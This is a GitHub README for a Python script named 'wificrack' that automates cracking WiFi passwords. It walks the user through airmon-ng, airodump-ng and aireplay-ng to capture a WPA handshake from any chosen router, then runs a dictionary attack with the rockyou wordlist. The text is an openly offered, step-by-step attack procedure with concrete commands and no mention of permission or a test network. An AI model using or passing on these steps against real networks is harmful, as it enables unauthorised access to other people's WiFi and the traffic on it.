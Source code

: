 # wificrack
crack wifi password

# WiFi Cracker Script

This Python script automates the process of cracking WiFi passwords using a combination of tools like `airmon-ng`, `airodump-ng`, `aireplay-ng`, and `aircrack-ng`. It simplifies the process by guiding the user through the necessary steps and providing instructions along the way.

## Features

- Automated WiFi password cracking process.
- User-friendly prompts and instructions.


## Prerequisites

- This script requires Python 3.x.
- Connect The External WIFI adapter
- Ensure that the necessary WiFi hacking tools (`airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`) are installed on your system.
- Download a wordlist file. In kali or parrot there is a wordlist file already present in this location `/usr/share/wordlists/rockyou.txt` 
- **Note:** Make sure to run the script as root for full functionality.

## Usage

1. Clone this repository to your local machine:


`git clone https://github.com/Ankit1927/wificrack.git`

`python3 wificrack.py` (run this command in sudo mode)

`airodump-ng wlan0`  (Run this command in new terminal with sudo, to see all available wifi Network when you locate your prefered one press `ctrl+c` to exit)

now back to your terminal

copy and paste BSSID of the wifi router of your choice.

then enter CH (channel number)

again open new tab in termianl and paste this

`airodump-ng --bssid 4C:93:A6:88:0D:B3 -c 6 wlan0 -w hand_shake`

if any device is conneted through this wifi network it appers below....(dont close this tab) and back to script....

`hit enter...`

back to other opened tab and see if WPA HANDSHAKE is being captured or not if yes then back to script and enter full path of your wordlist...

it can take some time to found the correct Passsowrd.

After exit from Script run command...

`sudo airmon-ng check kill`

`sudo service NetworkManager restart`


Tested in only Parrot/Kali linux systems till now. 



